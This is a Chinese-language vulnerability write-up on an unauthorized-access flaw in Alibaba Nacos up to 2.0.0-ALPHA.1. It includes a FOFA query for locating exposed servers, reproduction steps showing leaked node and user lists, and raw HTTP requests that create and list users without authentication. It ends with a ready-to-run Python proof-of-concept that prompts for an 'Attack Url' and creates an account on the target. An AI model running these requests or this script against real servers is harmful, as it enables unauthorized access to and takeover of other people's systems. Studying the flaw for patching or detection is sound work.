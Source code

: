 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

```
Nacos <= 2.0.0-ALPHA.1
```

## FOFA

```
title="Nacos"
```

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```



然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102003931.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102003894.png)

![3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102003898.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004781.png)



这里的请求url简化为



http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=



退出用户后在前台访问这个 url



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004013.png)



可以发现以及泄露了 **ip节点** 等数据



同样我们查看用户列表的请求并在前台访问



http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9



![6](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004595.png)

![7](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004600.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息



我们尝试创建用户并抓包



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004325.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```



同样的我们简化请求



```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![9](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004662.png)

![10](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004665.png)



看到有文章说要加上**User-Agent请求头**



```plain
User-Agent: Nacos-Server
```



但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

- 同样的原理也可以用于修改密码添加配置等

## 漏洞POC

```
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```

```
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
- 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202102004659.png)


